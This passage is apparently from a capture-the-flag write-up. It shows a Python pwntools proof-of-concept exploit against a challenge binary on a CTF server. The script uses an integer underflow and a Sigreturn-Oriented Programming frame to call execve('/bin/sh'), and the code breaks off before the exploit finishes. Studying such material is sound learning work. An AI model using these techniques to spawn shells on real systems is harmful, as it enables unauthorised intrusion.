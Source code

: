 
Here is the final PoC:

```python
from pwn import *

log.critical("Pwnage by memN0ps!")

# Binary to target
pwnme = './main'

# Breakpoints for GDB
## .text:0000000000401186 mov     [rax], rbx
## .text:0000000000401194 retn
gdbscript = '''
b *0x401186
b *0x401194
'''
# Arguments from the terminal (GDB, LOCAL or REMOTE)
if args['GDB']:
    p = gdb.debug(pwnme, gdbscript=gdbscript)
elif args['LOCAL']:
    elf = ELF(pwnme)
    p = elf.process()
elif args['REMOTE']:
    p = remote('challs.xmas.htsp.ro', 2002)
else:
    print("Usage: python3 {} [GDB] [LOCAL] [REMOTE]".format(sys.argv[-1]))
    sys.exit()

# Architecture
context(os="linux", arch="amd64")
context.log_level = "DEBUG"

# Allowed to send 8 bytes including 0x0a (\n). Using send instead of sendline will allow 8 bytes
def send_buffer(shellcode):
    p.recvuntil("What brand of cigarettes would you like to buy today? (/quit to leave)\n")
    p.send(shellcode) 

## Sigreturn-Oriented Programming (SROP) ##

## Frame to call execve using SigreturnFrame for x86-64
frame = SigreturnFrame(arch="amd64", kernel="amd64")
frame.rax = 0x3b                # syscall number for execve
frame.rdi = 0x0000000000402001  # pointer to the .bss/data segment (/bin/sh 0x68732f2f6e69622f)
frame.rsi = 0x0                 # NULL
frame.rdx = 0x0                 # NULL
frame.rsp = 0xdeadbeef          # 0xdeadbeef for testing
frame.rip = 0x0000000000401114  # 0x0000000000401114: syscall;

## Generate a unique pattern of uppercase letters (8 bytes)
#cyclic()
#g = cyclic_gen(string.ascii_uppercase, n=8)
#g.get(8)

# Memory Corruption via int underflow: unsigned __int16 is 0 to 65,535
# But if you include the 0 it is 65,536
# 272 - 232 = 40 and 65536 - 40 = 65496

# offset at 65496
payload = "A" * (65496 - len(frame))
send_buffer(payload)

# Reverse the frame and convert to bytes
new_frame = list(frame.values())
```